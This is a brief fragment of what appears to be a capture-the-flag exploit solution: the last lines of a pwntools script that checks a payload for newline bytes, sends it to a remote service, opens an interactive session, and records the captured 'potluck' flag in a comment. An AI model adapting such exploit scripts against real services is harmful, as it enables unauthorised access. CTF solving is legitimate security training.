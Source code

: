 ```plain
assert not b"\x0a" in payload
assert not b"\x0d" in payload
payload += b'\n'

r.send(payload)

r.interactive()
# potluck{3y3_4m_n0t_th3_0n3_t0_s0Rt_0f_s1T_4nD_cRY_0v3R_sP1Lt_m1LK!1!!}
```
